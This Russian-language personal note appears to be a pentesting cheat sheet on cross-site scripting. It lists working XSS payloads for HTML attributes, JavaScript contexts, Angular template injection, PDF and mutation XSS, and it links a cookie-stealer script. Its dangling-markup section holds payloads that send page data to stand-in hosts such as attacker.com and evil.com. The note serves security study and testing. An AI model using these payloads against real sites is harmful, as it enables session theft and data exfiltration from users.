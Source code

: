 ***
[PayloadsAllTheThings/XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#cross-site-scripting)

[kensworth/cookie-stealer: Simple PHP - Javascript - Webserver Cookie Stealer Script for XSS](https://github.com/kensworth/cookie-stealer)
***
# Навигация

> [[XSS#XSS в HTML атрибутах|1. XSS в HTML атрибутах]]
> [[XSS### XSS into JavaScript|2. XSS into JavaScript]]
> [[XSS#CSTI - Client side template injection|3. CSTI - Client side template injection]]
> [[XSS#Dangling Markup|4. Dangling Markup]]
> [[XSS#**CSP**|5. CSP]]
> [[XSS#Self-XSS|6. Self-XSS ]]
> [[XSS#PDF-XSS|7. PDF-XSS]]
> [[XSS#Mutation XSS|8. Mutation XSS]]
> [[XSS#Bliend XSS|9. Bliend XSS]]
***

## Формы отправки запросов JS

``` html
<script>
	fetch('https://site.com/', {method: "GET"}) // обычный GET запрос
</script>
```
``` html
<script>
	const req = new XMLHttpRequest()
	req.open("GET", "https://site.com/")
	req.send() // обычный GET запрос
</script>
```

---

# XSS в HTML атрибутах

[portswigger.net/XSS/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
1. Через intruder проверить не заблокированные теги и атрибуты.
2. Если ввод попадает в href, можно использовать следующую конструкцию `javascript:alert(1)`. Выйдет следующее: 
`<a href="javascript:alert(document.domain)">`
3. Проверь атрибут `accesskey`. Пример: 
`https://web-site/?%27accesskey=%27x%27onclick=%27alert(1)`; где `%27` = `'`. 
Скрипт сработает при нажатии:
- On Windows: `ALT+SHIFT+X` / `ALT+X`
- On MacOS: `CTRL+ALT+X`
- On Linux: `Alt+X`
# XSS into JavaScript
Если ввод попадает в скрипт внутри HTML:
1. Попытаться закрыть тег предыдущего скрипта и открыть новый: `</script><img src=1 onerror=alert(document.domain)>`
2. Если ввод находится в литералах : \` \`, ' ', " ", стоит попытаться выйти из них:
	```javascript
	'-alert(document.domain)-'
	';alert(document.domain)//
	```
	
	2.1. Если литералы экранируются, стоит проверить экранацию косой черты: \\ : ``\';alert(document.domain)//``
	2.2. Если косая черта экранируется, можно закодировать литерал, скорее всего в HTML кодировку: 
	`&apos;-alert(document.domain)-&apos;`
	2.3. Использовать конструкцию \${}: `${alert(document.domain)}`
1. Если запрещены круглые скобки, можно передавать аргументы в функции через конструкцию: `onerror=alert;throw 1`

# CSTI - Client side template injection
[XSS in Angular.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md)
**CSTI** - тип уязвимости, возникающий, когда разработчик позволяет пользовательскому вводу определять выражения шаблонов на веб-странице, что позволяет злоумышленнику внедрять вредоносные выражения шаблонов (которые являются упрощённым JavaScript) для эксплуатации веб-приложения. Это происходит в браузере и HTML, аналогично тому, как работает межсайтовый скриптинг (XSS). Некоторые JS фреймворки, такие как AngularJS, имеют песочницу, которая предотвращает использование определённых объектов, к которым разработчик не имел права доступа. Чтобы злоумышленник мог эксплуатировать это, ему нужно найти способ "выбраться" из песочницы, что означает получение доступа к областям, таким как объект документа, чтобы проэксплуатировать веб-приложение.

>Также иногда с помощью CSTI могут обходить CSP, допустим он разрешает погружать скрипты только с [some.com](http://some.com/), вы идёте туда, находите там Angular.js файл, а дальше подключаете его к странице, внедряете директиву ng-app и вставляете пэйлоад:

`<script src='<https://some.com/angular.min.js>'></script><div ng-app>{{$on.constructor.constructor('alert(document.domain)')()}}`

Для эксплуатации CSTI в Angular без песочницы используют следующую полезную нагрузку:

`{{$on.constructor('alert(1)')()}}`
# Dangling Markup
Кража данных посредством эксплуатации пэйлоада с открывающейся `'`, но не закрывая её:
[Dangling Markup - HTML scriptless injection | HackTricks | HackTricks](https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection)
```html 
<img src='http://attacker.com/log.php?HTML=
```
```html
<meta http-equiv="refresh" content='0; url=http://evil.com/log.php?text=
```
```html
<meta http-equiv="refresh" content='0;URL=ftp://evil.com?a=
```
# **CSP**
[Content Security Policy (CSP) Bypass | HackTricks | HackTricks](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass)

<div style="margin:5px; padding:5px; background-color: #E56D3D"><b>CSP (Content Security Policy)</b> - позволяет определять белые списки источников для подключения JavaScript, стилей, изображений, фреймов, создания соединений. </div>

<div style="margin:5px; padding:5px; background-color: #E56D3D">Также CSP может регулировать возможность исполнения inline-скриптов, возможность подключения текущей страницы во фрейме и т. д.</div>

CSP — это механизм безопасности браузера, целью которого является смягчение XSS и некоторых других атак. Он работает путем ограничения ресурсов (таких как скрипты и изображения), которые может загружать страница, и ограничения возможности включения страницы в рамки других страниц. 

Чтобы включить CSP, ответ должен включать заголовок `Content-Security-Policy` со значением, содержащим политику. Сама политика состоит из одной или нескольких директив, разделенных точкой с запятой.
## CSP директивы 

[CSP Evaluator (csp-evaluator.withgoogle.com)](https://csp-evaluator.withgoogle.com/) - сервис для проверки на безопасность веб-страницы по её CSP тегам. 
![[CSP директивы.png]]

# Self-XSS
**Self-XSS** - это форма атаки, при которой жертва атаки ненамеренно запускает вредоносный код в своём собственном браузере, что приводит к раскрытию личной информации атакующему. Это достигается путём **обмана пользователей в копировании и вставке вредоносного контента в консоль веб-разработчика** их браузера. В обычных условиях атакующий публикует сообщение, утверждая, что копирование и выполнение определённого кода позволит пользователю получить виртуальные награды или взломанный сайт. На самом деле код позволяет атакующему захватить учётную запись жертвы. 

# PDF-XSS
Если браузер использует PDF, можно исполнить JS следующим образом:
```url
https://sute/file.pdf#any=javascript:alert(1)
```
# Mutation XSS
**Mutation XSS (mxss)** - тип атаки на веб-приложение, который происходит, когда ненадёжные данные обрабатываются в контексте свойства DOM 'innerHTML' и изменяются браузером. Этот  тип атаки особенно опасен, поскольку он может обойти большинство существующих фильтров и санитайзеров XSS, позволяя вредоносному коду выполняться в браузере пользователя. Примером может служить ситуация, когда сервер корректно экранирует входные данные, но не предотвращает их декодирование браузером в вредоносный скрипт из-за сложного поведения браузера, который переинтерпретирует контент. 
Другими словами браузер может самостоятельно не только декодировать символы, но и дописывать HTML теги. Т.е если подать на вход:
```javascript
<template><p title="</template><img src=x onerror=alert(1)>">
```
То браузер может переписать это в:
```javascript
<template>
	<p title="</template><img src=x onerror=alert(1)>"></p>
</template>
```
# Bliend XSS
**Bliend XSS** - тип уязвимости, при котором вредоносный код внедряется в веб-приложение и сохраняется на сервере, но его выполнение происходит в другом месте, недоступном для атакующего. 
Можно поднять у себя следующую службу: [XSS Hanter Express](https://github.com/mandatoryprogrammer/xsshunter-express), они служит отличный инструментом для эксплуатации **bliend XSS**.
